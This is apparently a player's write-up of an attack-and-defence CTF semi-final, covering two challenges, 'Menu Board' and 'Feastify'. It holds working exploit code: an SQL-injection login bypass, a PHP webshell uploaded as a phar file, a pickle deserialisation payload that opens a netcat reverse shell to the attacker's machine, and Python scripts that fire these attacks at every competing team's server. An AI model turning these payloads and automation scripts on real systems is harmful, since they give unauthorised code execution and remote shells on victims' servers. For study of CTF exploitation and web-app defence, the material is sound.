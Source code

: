 # SiberSiaga x iHACK A&D Semi Finals 2024 - Writeup
My first A&D style CTF, representing GPT-1010. It was not a flawless experience but I still kinda enjoyed it due to the good quality of challenges and learned a lot.<br><br>
It spanned 2 days with a total of 12 hours (1hr/round). Only thing to regret is I accidentally slept at night of day 1 without preparing for day 2 and one of our challenge instance got attacked in the morning of day 2 resulting in us losing all attack points due to 0% SLA. (Scoring: `(attacking_points * SLA) - deduction_points + sla_points + defensives_points`)<br>
In the end, we got exploits for 2 out of the 5 challanges.

## Table of Contents
- [Menu Board](#menu-board)
- [Feastify](#feastify)

## Menu Board
We were presented with only a static website showing menu without other options.<br>
After struggling for a few hours, I started checking server logs in `/var/log/menuboard/apache_access.log` and found other teams has been accessing our `login.php` and `add.php` to add menu items. Their usage of `.phar` files showed that the server is vulnerable to code execution with phar files.
<br><br>
In `login.php`, we are able to confirm the existence of an SQL injection vulnerability by submitting both fields with a single quote (') character which gives us a mysql error. We were able to exploit the vulnerability to dump the database but was unable to login due to the password was md5 encoded and password field cannot be injected.
![image](https://github.com/user-attachments/assets/a77cdc3d-28ef-4f8b-aea8-e9f27383d21f)
<br>
The turning point of this situation occured when sevreal teams gladly walked in before my eyes and showed me (feat. **Sudu_bediri, Kena Paksa, CSN**) how to use the webshell that **anti_1337** placed on us.<br>
![image](https://github.com/user-attachments/assets/3faec2d7-0e38-41a7-bceb-92bcccf2c855)
<br>
From there we are able to obtain the php source code and therefore get to see the login logic, which looked like this:
```php
$query = "SELECT username, password, role FROM users WHERE username='$username'";
$result = mysqli_query($conn, $query);
if (mysqli_num_rows($result) == 1) {
    $row = mysqli_fetch_assoc($result);
    if ($row['password'] == $hashed_password) {
        $_SESSION['username'] = $row['username'];
        $_SESSION['role'] = $row['role'];
        return true;
    } else {
        return false;
    }
```
Based on the source, we therefore can craft an injection query where username = `' union select 'Admin' as username, md5('1') as password, 'admin' as role -- g`, password = `1` to login.<br><br>
After that, we just need to create an menu item with a phar file as the cover image to gain RCE.<br>
Our webshell payload: (thanks **anti_1337** 😉)
```php
<?php system($_REQUEST['gptgpt123']);?>
```
Getting flag:
![image](https://github.com/user-attachments/assets/c93f3eba-3faa-4696-a0c2-69b643cb409b)

<details>
<summary>Attack automation</summary>

```py
import requests
from typing import Optional
import warnings

warnings.filterwarnings('ignore')


teams = {
    "REUN10N_0x94fbr": "172.16.107.11",
    "N3WBEES": "172.16.109.11",
    "Sudu_bediri": "172.16.106.11",
    "PERISAI FALLEN": "172.16.112.11",
    "CSN": "172.16.130.11",
    "Cookie Byte": "172.16.110.11",
    "n00bst3am": "172.16.114.11",
    "H1ddenL0ck": "172.16.129.11",
    "scap3G04T": "172.16.123.11",
    "Bømbåstïç S¡dë £¥€": "172.16.117.11",
    "idk": "172.16.101.11",
    "Darksid3rs": "172.16.121.11",
    "Sci3ntex": "172.16.122.11",
    "Kena Paksa ??": "172.16.127.11",
    "Lesgo Babey": "172.16.113.11",
    "Pleiades": "172.16.108.11",
    "sk1d_s3c": "172.16.125.11",
    "username": "172.16.105.11",
    "Cybertopia": "172.16.120.11",
    "whilefalsebr8": "172.16.116.11",
    "C1C4D4": "172.16.126.11",
    "P4NTH3R4": "172.16.119.11",
    "M53_A1ph4_Sh4rk!": "172.16.131.11",
    "Black Byte Society": "172.16.118.11",
    "Steady Gang": "172.16.102.11",
    "anti_1337": "172.16.103.11",
    "Satr1a_Jeb4t": "172.16.115.11",
    "Sentinels": "172.16.104.11",
    "B016": "172.16.128.11",
    "NT": "172.16.111.11"
}


def pwn(ip) -> Optional[str]:
    session = requests.session()
    try:
        burp0_url = f"https://{ip}:443/login.php"
        burp0_headers = {"Cache-Control": "max-age=0", "Sec-Ch-Ua": "\"Not/A)Brand\";v=\"8\", \"Chromium\";v=\"126\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "en-US", "Upgrade-Insecure-Requests": "1", "Origin": "https://172.16.118.11", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Referer": "https://172.16.118.11/login.php", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i", "Connection": "keep-alive"}
        burp0_data = {"username": "' union select 'Admin' as username, md5('1') as password, 'admin' as role -- g", "password": "1"}
        session.post(burp0_url, headers=burp0_headers, data=burp0_data, verify=False, timeout=2)
    except Exception as e:
        print(f"{ip} Error: {e}")
        return None

    try:
        burp0_url = f"https://{ip}:443/add.php"
        burp0_headers = {"Cache-Control": "max-age=0", "Sec-Ch-Ua": "\"Not/A)Brand\";v=\"8\", \"Chromium\";v=\"126\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "en-US", "Upgrade-Insecure-Requests": "1", "Origin": "https://172.16.118.11", "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundarylKLFBVni1R77A4as", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Referer": "https://172.16.118.11/add.php", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i", "Connection": "keep-alive"}
        burp0_data = "------WebKitFormBoundarylKLFBVni1R77A4as\r\nContent-Disposition: form-data; name=\"name\"\r\n\r\naa\r\n------WebKitFormBoundarylKLFBVni1R77A4as\r\nContent-Disposition: form-data; name=\"description\"\r\n\r\naa\r\n------WebKitFormBoundarylKLFBVni1R77A4as\r\nContent-Disposition: form-data; name=\"category\"\r\n\r\n1\r\n------WebKitFormBoundarylKLFBVni1R77A4as\r\nContent-Disposition: form-data; name=\"tag\"\r\n\r\n1\r\n------WebKitFormBoundarylKLFBVni1R77A4as\r\nContent-Disposition: form-data; name=\"image\"; filename=\"something.phar\"\r\nContent-Type: application/octet-stream\r\n\r\n<?php system($_REQUEST['gptgpt123']);?>\r\n------WebKitFormBoundarylKLFBVni1R77A4as\r\nContent-Disposition: form-data; name=\"price\"\r\n\r\n12\r\n------WebKitFormBoundarylKLFBVni1R77A4as\r\nContent-Disposition: form-data; name=\"draft\"\r\n\r\non\r\n------WebKitFormBoundarylKLFBVni1R77A4as\r\nContent-Disposition: form-data; name=\"draft\"\r\n\r\ntrue\r\n------WebKitFormBoundarylKLFBVni1R77A4as--\r\n"
        session.post(burp0_url, headers=burp0_headers, data=burp0_data, verify=False, timeout=2)
    except Exception as e:
        print(f"{ip} Error: {e}")
        return None

    try:
        burp0_url = f"https://{ip}:443/assets/uploads/img/something.phar?gptgpt123=/usr/local/bin/flag"
        burp0_headers = {"Sec-Ch-Ua": "\"Not/A)Brand\";v=\"8\", \"Chromium\";v=\"126\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "en-US", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "none", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i", "Connection": "keep-alive"}
        resp = session.post(burp0_url, headers=burp0_headers, verify=False, timeout=2).text
        # print(resp)
        return resp
    except Exception as e:
        print(f"{ip} Error: {e}")
        return None
    return None


flags = []
n_ok, n_err = 0, 0
for name, ip in teams.items():
    flag = pwn(ip)
    if flag is None or "ihack24" not in flag:
        print(f"!!! NO FLAG {name}")
        n_err += 1
    else:
        print(f"Ok {name}")
        n_ok += 1
        flags.append(flag.strip())

print("\n".join(flags))
print()
print(",".join(flags))

print("Ok: ", n_ok, "Error: ", n_err)
```
</details>

[*Back to top*](#table-of-contents)


## Feastify
In the main webpage, every menu item leads us to a link to download an android app called feastify.<br>
If we directly access the service through port 8000 we would get an error saying `Access denied. This API is only accessible from Android devices.`
<br><br>
Therefore, we first download and run the app with packet capture enabled. After clicking around, we found that the `/api/submit_order` endpoint is POSTing some mystery data in base64. In the reverse engineered source code we can see that it has something to do with `pickler` library, which is a Java serialisation library for python's pickle format.
<br><br>
As pickle is famous for its RCE vulnerability (as seen in the official docs), we decided to try it.
![image](https://github.com/user-attachments/assets/4f1880d3-9ecb-4451-933e-f89e0f27210d)
The script below generates an attack payload abusing pickle's insecure deserialisation vulnerability.
```py
class P(object):
    def __reduce__(self):
        return (os.system,("nc -e /bin/sh 172.16.124.11 34512",))

data = {"orders":[{"item_id":21,"quantity":1}],"remarks":""}

pickledPayload = pickle.dumps(P())
enc = base64.b64encode(pickledPayload)
print(enc)
```
With `nc -lnvp 34512` running on our attacking machine, submitting the attack payload was able to get us a reverse shell on the victim server.

<details>
<summary>Payload submission automation</summary>

```py
import requests
import warnings

warnings.filterwarnings('ignore')

teams = {
    "REUN10N_0x94fbr": "172.16.107.11",
    "N3WBEES": "172.16.109.11",
    "Sudu_bediri": "172.16.106.11",
    "PERISAI FALLEN": "172.16.112.11",
    "CSN": "172.16.130.11",
    "Cookie Byte": "172.16.110.11",
    "n00bst3am": "172.16.114.11",
    "H1ddenL0ck": "172.16.129.11",
    "scap3G04T": "172.16.123.11",
    "Bømbåstïç S¡dë £¥€": "172.16.117.11",
    "idk": "172.16.101.11",
    "Darksid3rs": "172.16.121.11",
    "Sci3ntex": "172.16.122.11",
    "Kena Paksa ??": "172.16.127.11",
    "Lesgo Babey": "172.16.113.11",
    "Pleiades": "172.16.108.11",
    "sk1d_s3c": "172.16.125.11",
    "username": "172.16.105.11",
    "Cybertopia": "172.16.120.11",
    "whilefalsebr8": "172.16.116.11",
    "C1C4D4": "172.16.126.11",
    "P4NTH3R4": "172.16.119.11",
    "M53_A1ph4_Sh4rk!": "172.16.131.11",
    "Black Byte Society": "172.16.118.11",
    "Steady Gang": "172.16.102.11",
    "anti_1337": "172.16.103.11",
    "Satr1a_Jeb4t": "172.16.115.11",
    "Sentinels": "172.16.104.11",
    "B016": "172.16.128.11",
    "NT": "172.16.111.11"
}

# Define the URL and headers
headers = {
    'Cookie': 'session_id=a37786e6-8e29-492b-9165-c3d6e6407e69',
    'User-Agent': 'Mozilla/5.0 (Linux; Android 7.1.2; SM-G955F Build/NRD90M; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/119.0.6045.193 Safari/537.36',
    'Content-Type': 'application/json; charset=utf-8',
    'Accept-Encoding': 'gzip, deflate, br',
    'Connection': 'keep-alive'
}

# Define the JSON data to be sent in the request body
data = {
    # edit your payload here!!!
    "data": "gASVGAAAAAAAAACMBHRpbWWUjAVzbGVlcJSTlEsAhZRSlC4=" # sleep 0
}

n_ok, n_err = 0, 0
# Send the POST request
for name, ip in teams.items():
    url = f"https://{ip}:8000/api/submit_order"
    try:
        response = requests.post(url, headers=headers, json=data, verify=False, timeout=2)
        print(response.status_code)
    except:
        print("Error: " + name)
        n_err += 1
        continue
    print("Ok " + name)
    n_ok += 1

print("Ok: ", n_ok, "Error: ", n_err)

```
</details>

[*Back to top*](#table-of-contents)

